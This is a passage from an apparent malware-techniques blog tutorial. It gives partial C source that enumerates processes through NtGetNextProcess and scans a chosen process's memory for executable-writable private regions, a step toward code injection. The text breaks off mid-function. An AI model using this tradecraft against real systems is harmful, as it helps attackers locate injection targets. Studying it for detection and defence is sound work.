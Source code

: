 ```cpp
```

As you can see, we [use](/malware/2023/05/26/malware-tricks-30.html) `NtGetNextProcess` API for enumerating processes.    

So the final source code is looks like this (`hack.c`):    

```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return current;
}


int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

```